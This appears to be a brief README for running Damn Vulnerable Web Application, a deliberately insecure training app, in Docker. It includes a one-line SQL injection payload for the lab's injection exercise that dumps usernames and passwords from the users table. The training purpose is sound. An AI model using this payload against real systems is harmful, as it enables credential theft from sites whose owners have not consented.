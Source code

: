 # Damn Vulnerable Web Application

docker run -rm -p 80:80 --name dvwa milovbahg/dvwa:latest

Click 'create/reset-db' on the first page, default difficulty is set to impossible (you may want to drop that down!)

Run the following command in the SQL Injection scenario to test:

%' and 1=0 union select null, concat(user,':',password) from users #
